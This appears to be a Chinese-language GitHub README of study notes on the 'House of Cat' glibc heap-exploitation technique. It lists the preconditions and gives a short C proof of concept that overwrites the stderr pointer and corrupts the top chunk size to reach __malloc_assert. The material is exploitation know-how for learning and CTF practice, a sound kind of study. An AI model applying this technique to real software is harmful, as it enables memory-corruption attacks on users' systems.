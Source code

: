# House-Of-Main

## README

- 分析的有点乱，有点垃圾，有空重新分析下

## House Of cat

- 利用条件

1.能够任意写一个可控地址。

2.能够泄露堆地址和libc基址。

3.能够触发IO流（FSOP或触发__malloc_assert，或者程序中存在puts等能进入IO链的函数），执行IO相关函数.

4. 2.35之前是可以用的，2.36 之后就不可以用了

‍

exit 调用 正常结束程序 main 函数 retrun 0;

‍

‍

> 需要触发这条链，topchunk 的size 需要 为 0x55 0x56  （一般通过large bin attack c错位修改 top_chunk的size）

‍

执行malloc 时会检查 top_chunk的size，只要出问题他就会进入 `__malloc_assert`​

‍

- 分析

‍

```c
#include<stdio.h>
#include<stdlib.h>


int main(){
	size_t puts_addr = &puts;
	size_t libc_base = puts_addr - 528080;
	size_t*stderr_   = libc_base + 0x21a860; // p &stderr


	printf("libc_base = %p",&libc_base);
	printf("stderr_   = %p",&stderr_);

	size_t *ptr = malloc(0x500);

	* stderr_ = ptr - 2; // 修改stderr 里的指针执行 我们的堆地址

	ptr[0x508/8] =  0x55;

	malloc(0x500);

	return 0;
}
```
